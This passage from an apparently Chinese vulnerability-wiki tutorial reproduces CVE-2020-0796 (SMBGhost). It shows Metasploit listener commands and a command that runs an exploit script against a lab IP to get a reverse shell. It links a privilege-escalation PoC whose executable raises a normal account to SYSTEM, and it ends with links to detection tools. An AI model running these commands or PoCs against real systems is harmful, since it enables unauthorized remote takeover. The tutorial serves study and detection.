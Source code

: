 `msf5 exploit(multi/handler) \> set lport 2333 \#设置监听端口msf5`\
`exploit(multi/handler) \> exploit`

执行利用poc，可以看到成功执行，在按任意键，最好回车键即可`python3 exploit.py ``­``ip 192.168.1.103`

![14.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId47.jpg)

![15.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId48.jpg)

在msf可以看到成功反弹出目标靶机的shell

### 五、CVE­2020­0796 本地提权漏洞复现

环境要求，需要windows 10 1909 x64

下 载 地 址 ：\
ed2k://\|file\|cn\_windows\_10\_business\_editions\_version\_1909\_x64\_dvd\_0ca83907.iso\|5275090944\|\
9BCD5FA6C8009E4D0260E4B23008BD47\|/

**提权POC:**

    https://download.0-sec.org/系统安全/Windows/CVE-2020-0796提权poc.zip

![16.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId50.png)

这里我新建了一个普通权限的账号，可以看到权限很小

![17.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId51.png)

在普通账号上执行cve­2020­0796­local.exe，可以看到成功提权到system权限

![18.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId52.jpg)

### 六、漏洞检测

![19.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId54.png)
奇 安 信 批 量 检 测 工 具 ：
*http://dl.qianxin.com/skylar6/CVE­2020­0796­Scanner.zip*

sh 脚 本 检 测 ：
[https://gist.githubusercontent.com/nikallass/40f3215e6294e94cde78ca60dbe07394/raw/84d803de9\
37f5b6810df4441cc84f0fa63991e2e/check­smb­v3.11.sh](https://gist.githubusercontent.com/nikallass/40f3215e6294e94cde78ca60dbe07394/raw/84d803de937f5b6810df4441cc84f0fa63991e2e/check-smb-v3.11.sh)

![20.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId56.png)

    #!/bin/bash
    if [ $# -eq 0 ]
      then
        echo $'Usage:\n\tcheck-smb-v3.11.sh TARGET_IP_or_CIDR'
        exit 1
    fi
    